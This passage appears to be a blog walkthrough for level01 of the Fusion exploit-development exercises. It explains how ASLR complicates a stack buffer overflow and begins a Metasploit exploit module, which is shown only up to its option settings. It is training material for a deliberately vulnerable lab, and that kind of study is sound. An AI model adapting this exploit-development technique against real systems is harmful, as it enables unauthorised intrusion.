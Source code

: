 ```yaml
---
layout: post
title: Fusion level01 write up
excerpt: "Was fusion level00 a breeze? This walkthrough explores developing the same exploit with ASLR enabled. Understanding ASLR is required for attempting the next challenges."
categories: Exploit-dev
tags:
  - exploit-dev
permalink: "fusion/level01"
---
```


This post details a walkthrough on how to create a Metasploit module for level01 of the Fusion exploit exercise at [https://exploit-exercises.com](https://exploit-exercises.com). This level uses the same code with the same bug as level00. For intial setup and bug analysis see the [previous walkthrough]({{site.baseurl}}/fusion-level00-walkthrough). This level adds in system ASLR for the stack, heap, etc.

## Inspecting the crash
---
The exploit steps in level00 were:

* Control the value of eip
* Find the payload in memory
* Point eip at the payload

The third step above is no longer reliable because the payload is stored on the stack and each time the program executes the location of the stack changes. The difficultly is finding a way to reliably locate the payload. Below is a module similar to the proof of concept developed for level00 that will cause the pogram to crash. The time of the crash is the ideal time to inspect memory because this state will be consistent each time, though exact addresses will change.

_Note: If the module below is confusing please browse the level00 walkthrough_

{% highlight bash %}
class Metasploit3 < Msf::Exploit::Remote

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Fusion level00 remote stack buffer overflow',
      'Description'    => %q{
                           This module exploits a stack buffer overflow in level00 of the
                           fusion exploit exercises.
                           },
      'Author'         => [ 'Philip OKeefe' ],
      'Version'        => '1',
      'DefaultOptions' =>
              {
                      'EXITFUNC' => 'process',
              },
      'Payload'        =>
              {
                      'Space'    => 788,
                      'BadChars' => "\x00",
                      'StackAdjustment' => -4000,
              },
      'Platform'       => 'linux',

      'Targets'        =>
              [
                      ['Linux', {} ],
              ],
      'DefaultTarget' => 0,
